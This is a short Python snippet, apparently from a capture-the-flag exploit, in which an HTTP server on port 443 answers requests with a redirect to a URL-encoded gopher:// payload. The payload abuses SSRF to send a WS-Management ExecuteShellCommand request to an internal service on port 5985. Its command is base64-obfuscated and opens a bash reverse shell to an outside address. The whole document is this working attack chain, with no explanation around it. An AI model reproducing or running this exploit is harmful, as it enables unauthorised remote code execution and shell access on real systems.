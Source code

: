 ```python
self.send_header("Location", "gopher://127.0.0.1:5985/_%50%4f%53%54%20%2f%77%73%6d%61%6e%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20%31%30%2e%31%30%2e%31%31%2e%31%31%37%3a%35%39%38%36%0d%0a%55%73%65%72%2d%41%67%65%6e%74%3a%20%70%79%74%68%6f%6e%2d%72%65%71%75%65%73%74%73%2f%32%2e%32%35%2e%31%0d%0a%41%63%63%65%70%74%2d%45%6e%63%6f%64%69%6e%67%3a%20%67%7a%69%70%2c%20%64%65%66%6c%61%74%65%0d%0a%41%63%63%65%70%74%3a%20%2a%2f%2a%0d%0a%43%6f%6e%6e%65%63%74%69%6f%6e%3a%20%63%6c%6f%73%65%0d%0a%43%6f%6e%74%65%6e%74%2d%54%79%70%65%3a%20%61%70%70%6c%69%63%61%74%69%6f%6e%2f%73%6f%61%70%2b%78%6d%6c%3b%63%68%61%72%73%65%74%3d%55%54%46%2d%38%0d%0a%43%6f%6e%74%65%6e%74%2d%4c%65%6e%67%74%68%3a%20%31%37%32%38%0d%0a%0d%0a%3c%73%3a%45%6e%76%65%6c%6f%70%65%20%78%6d%6c%6e%73%3a%73%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%33%2f%30%35%2f%73%6f%61%70%2d%65%6e%76%65%6c%6f%70%65%22%20%78%6d%6c%6e%73%3a%61%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%78%6d%6c%73%6f%61%70%2e%6f%72%67%2f%77%73%2f%32%30%30%34%2f%30%38%2f%61%64%64%72%65%73%73%69%6e%67%22%20%78%6d%6c%6e%73%3a%68%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%6d%69%63%72%6f%73%6f%66%74%2e%63%6f%6d%2f%77%62%65%6d%2f%77%73%6d%61%6e%2f%31%2f%77%69%6e%64%6f%77%73%2f%73%68%65%6c%6c%22%20%78%6d%6c%6e%73%3a%6e%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%78%6d%6c%73%6f%61%70%2e%6f%72%67%2f%77%73%2f%32%30%30%34%2f%30%39%2f%65%6e%75%6d%65%72%61%74%69%6f%6e%22%20%78%6d%6c%6e%73%3a%70%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%6d%69%63%72%6f%73%6f%66%74%2e%63%6f%6d%2f%77%62%65%6d%2f%77%73%6d%61%6e%2f%31%2f%77%73%6d%61%6e%2e%78%73%64%22%20%78%6d%6c%6e%73%3a%77%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%64%6d%74%66%2e%6f%72%67%2f%77%62%65%6d%2f%77%73%6d%61%6e%2f%31%2f%77%73%6d%61%6e%2e%78%73%64%22%20%78%6d%6c%6e%73%3a%78%73%69%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%31%2f%58%4d%4c%53%63%68%65%6d%61%22%3e%0a%20%20%20%3c%73%3a%48%65%61%64%65%72%3e%0a%20%20%20%20%20%20%3c%61%3a%54%6f%3e%48%54%54%50%3a%2f%2f%31%39%32%2e%31%36%38%2e%31%2e%31%3a%35%39%38%36%2f%77%73%6d%61%6e%2f%3c%2f%61%3a%54%6f%3e%0a%20%20%20%20%20%20%3c%77%3a%52%65%73%6f%75%72%63%65%55%52%49%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%74%72%75%65%22%3e%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%64%6d%74%66%2e%6f%72%67%2f%77%62%65%6d%2f%77%73%63%69%6d%2f%31%2f%63%69%6d%2d%73%63%68%65%6d%61%2f%32%2f%53%43%58%5f%4f%70%65%72%61%74%69%6e%67%53%79%73%74%65%6d%3c%2f%77%3a%52%65%73%6f%75%72%63%65%55%52%49%3e%0a%20%20%20%20%20%20%3c%61%3a%52%65%70%6c%79%54%6f%3e%0a%20%20%20%20%20%20%20%20%20%3c%61%3a%41%64%64%72%65%73%73%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%74%72%75%65%22%3e%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%78%6d%6c%73%6f%61%70%2e%6f%72%67%2f%77%73%2f%32%30%30%34%2f%30%38%2f%61%64%64%72%65%73%73%69%6e%67%2f%72%6f%6c%65%2f%61%6e%6f%6e%79%6d%6f%75%73%3c%2f%61%3a%41%64%64%72%65%73%73%3e%0a%20%20%20%20%20%20%3c%2f%61%3a%52%65%70%6c%79%54%6f%3e%0a%20%20%20%20%20%20%3c%61%3a%41%63%74%69%6f%6e%3e%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%64%6d%74%66%2e%6f%72%67%2f%77%62%65%6d%2f%77%73%63%69%6d%2f%31%2f%63%69%6d%2d%73%63%68%65%6d%61%2f%32%2f%53%43%58%5f%4f%70%65%72%61%74%69%6e%67%53%79%73%74%65%6d%2f%45%78%65%63%75%74%65%53%68%65%6c%6c%43%6f%6d%6d%61%6e%64%3c%2f%61%3a%41%63%74%69%6f%6e%3e%0a%20%20%20%20%20%20%3c%77%3a%4d%61%78%45%6e%76%65%6c%6f%70%65%53%69%7a%65%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%74%72%75%65%22%3e%31%30%32%34%30%30%3c%2f%77%3a%4d%61%78%45%6e%76%65%6c%6f%70%65%53%69%7a%65%3e%0a%20%20%20%20%20%20%3c%61%3a%4d%65%73%73%61%67%65%49%44%3e%75%75%69%64%3a%30%41%42%35%38%30%38%37%2d%43%32%43%33%2d%30%30%30%35%2d%30%30%30%30%2d%30%30%30%30%30%30%30%31%30%30%30%30%3c%2f%61%3a%4d%65%73%73%61%67%65%49%44%3e%0a%20%20%20%20%20%20%3c%77%3a%4f%70%65%72%61%74%69%6f%6e%54%69%6d%65%6f%75%74%3e%50%54%31%4d%33%30%53%3c%2f%77%3a%4f%70%65%72%61%74%69%6f%6e%54%69%6d%65%6f%75%74%3e%0a%20%20%20%20%20%20%3c%77%3a%4c%6f%63%61%6c%65%20%78%6d%6c%3a%6c%61%6e%67%3d%22%65%6e%2d%75%73%22%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%66%61%6c%73%65%22%20%2f%3e%0a%20%20%20%20%20%20%3c%70%3a%44%61%74%61%4c%6f%63%61%6c%65%20%78%6d%6c%3a%6c%61%6e%67%3d%22%65%6e%2d%75%73%22%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%66%61%6c%73%65%22%20%2f%3e%0a%20%20%20%20%20%20%3c%77%3a%4f%70%74%69%6f%6e%53%65%74%20%73%3a%6d%75%73%74%55%6e%64%65%72%73%74%61%6e%64%3d%22%74%72%75%65%22%20%2f%3e%0a%20%20%20%20%20%20%3c%77%3a%53%65%6c%65%63%74%6f%72%53%65%74%3e%0a%20%20%20%20%20%20%20%20%20%3c%77%3a%53%65%6c%65%63%74%6f%72%20%4e%61%6d%65%3d%22%5f%5f%63%69%6d%6e%61%6d%65%73%70%61%63%65%22%3e%72%6f%6f%74%2f%73%63%78%3c%2f%77%3a%53%65%6c%65%63%74%6f%72%3e%0a%20%20%20%20%20%20%3c%2f%77%3a%53%65%6c%65%63%74%6f%72%53%65%74%3e%0a%20%20%20%3c%2f%73%3a%48%65%61%64%65%72%3e%0a%20%20%20%3c%73%3a%42%6f%64%79%3e%0a%20%20%20%20%20%20%3c%70%3a%45%78%65%63%75%74%65%53%68%65%6c%6c%43%6f%6d%6d%61%6e%64%5f%49%4e%50%55%54%20%78%6d%6c%6e%73%3a%70%3d%22%68%74%74%70%3a%2f%2f%73%63%68%65%6d%61%73%2e%64%6d%74%66%2e%6f%72%67%2f%77%62%65%6d%2f%77%73%63%69%6d%2f%31%2f%63%69%6d%2d%73%63%68%65%6d%61%2f%32%2f%53%43%58%5f%4f%70%65%72%61%74%69%6e%67%53%79%73%74%65%6d%22%3e%0a%20%20%20%20%20%20%20%20%20%3c%70%3a%63%6f%6d%6d%61%6e%64%3e%65%63%68%6f%20%2d%6e%20%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%78%4d%53%38%35%4d%44%41%78%49%44%41%2b%4a%6a%45%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68%3c%2f%70%3a%63%6f%6d%6d%61%6e%64%3e%0a%20%20%20%20%20%20%20%20%20%3c%70%3a%74%69%6d%65%6f%75%74%3e%30%3c%2f%70%3a%74%69%6d%65%6f%75%74%3e%0a%20%20%20%20%20%20%3c%2f%70%3a%45%78%65%63%75%74%65%53%68%65%6c%6c%43%6f%6d%6d%61%6e%64%5f%49%4e%50%55%54%3e%0a%20%20%20%3c%2f%73%3a%42%6f%64%79%3e%0a%3c%2f%73%3a%45%6e%76%65%6c%6f%70%65%3e%0a")
self.end_headers()

httpd = HTTPServer(('0.0.0.0', 443), MainHandler)
```